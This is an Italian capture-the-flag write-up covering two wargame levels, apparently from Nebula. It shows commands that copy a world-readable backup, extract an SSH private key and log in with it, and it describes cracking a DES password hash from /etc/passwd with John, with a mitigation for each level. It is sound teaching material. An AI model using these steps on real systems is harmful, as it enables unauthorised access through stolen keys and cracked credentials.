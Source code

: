 ### Tipo Vulnerabilità

Permessi directory

### Descrizione Exploit

```c
ls -la /home/flag05

drwxr-xr-x 1 flag05 flag05  .......  .backup 
```

come si può notare flag05 è leggibile ed eseguibile da other. 
Dentro questa directory trivuani backup.tgz
Exploit:

```c
cp /home/flag05/.backup/file.tgz     /tmp/level05/
tar -xvzf file.tgz
ssh -i ./.ssh/id_rsa flag05@127.0.0.1
```

### Mitigazioni

Rimuovere permessi `+w` da directory critiche, restrizioni chroot

---

## Level06 FATTO

### Consegna

> The **flag06** account credentials came from a legacy UNIX system.
> 
> 
> To do this level, log in as the **level06** account with the password **level06**. Files for this level can be found in /home/flag06.
> 

### Tipo Vulnerabilità

Hash DES in `/etc/passwd`

### Descrizione Exploit

Hash DES facilmente craccabile offline;
Estrarre hash `flag06` e craccarlo con John, poi `su` → `getflag`

### Mitigazioni

Usare hashing moderno (SHA‑512), spostare hash in `/etc/shadow` e usare salt complessi

---
